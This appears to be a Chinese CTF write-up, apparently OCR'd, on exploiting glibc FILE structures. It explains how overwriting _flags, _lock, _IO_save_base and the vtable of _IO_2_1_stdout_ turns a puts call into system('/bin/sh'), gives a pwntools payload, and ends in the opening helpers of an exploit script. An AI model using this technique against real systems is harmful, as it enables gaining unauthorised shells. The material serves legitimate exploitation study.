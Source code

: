 ```plain
0x80  _cur_column
0x82  _vtable_offset
0x83  _shortbuf
0x88  _lock
0x90  _offset
0x98  _codecvt
0xa0  _wide_data
0xa8  _freeres_list
0xb0  _freeres_buf
0xb8  __pad5
0xc0  _mode
0xc4  _unused2
0xd8  vtable
```

1、篡改\_IO\_FILE结构体中的vtable字段时，要不可避免的填充之前的字段，但如果将\_lock字段破坏的话，在执行输出函数中最开始上锁的宏\_IO\_acquire\_lock (\_IO\_stdout)就会崩溃掉，因此需要保证\_lock字段是正常的。

2、如果想通过直接修改 \_IO\_2\_1_stdout_ 结构体中的字段来getshell的话，我们可以将\_flags字段写入字符串/bin/sh\\x00(是字符串，并非该字符串的地址)，然后将vtable修改为\_IO\_2\_1\_stdout\_的地址+0x10，然后将\_IO\_save\_base字段(0x48)写成system地址，最后要将\_lock字段写入原本正常的值。这样当执行puts函数的时候会调用vtable中的\_IO\_new\_file\_xsputn函数，但是vtable已经被修改，这个函数的偏移是0x38,而vtable被修改成\_IO\_2\_1\_stdout\_的地址+0x10,最终调用的是\_IO\_2\_1\_stdout\_的地址+0x48的函数指针，而这个位置就是\_IO\_save\_base字段，里面放的是system的地址。而\_IO\_new\_file\_xsputn函数的第一个参数是\_IO\_2\_1\_stdout\_的地址，而这个地址原本应该是\_flags字段，但是现在却被写入了/bin/sh字符串。因此本来正常调用的\_IO\_new\_file\_xsputn函数如今变成了system(‘/bin/sh\\x00’),从而获取shell。(该方法在libc2.23以上的版本就无法再使用了)

根据上面的原理，我们再次劫持整个\_IO\_2\_1\_stdout\_结构，直接伪造vtable，篡改\_flags、\_lock、vtable、\_IO\_save\_base字段。

\_flags：'/bin/sh\\x00'  
\_IO\_save\_base: system  
\_lock: \_IO\_stdfile\_1\_lock #确保这个\_lock字段的值是正常的  
vtable: \_IO\_2\_1_stdout_ +0x10

```plain
pl=flat([
    b'/bin/sh\x00',
    p64(0)*8,
    libc.symbols['system']+libc_base, #_IO_save_base
    p64(0)*6,
    p64(0),
    #p64(0)*3,
    libc_base+0x3c6780, #lock
    p64(0),
    p64(0)*8,
    libc_base+libc.symbols['_IO_2_1_stdout_']+0x10 #
    ])
```

## exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
```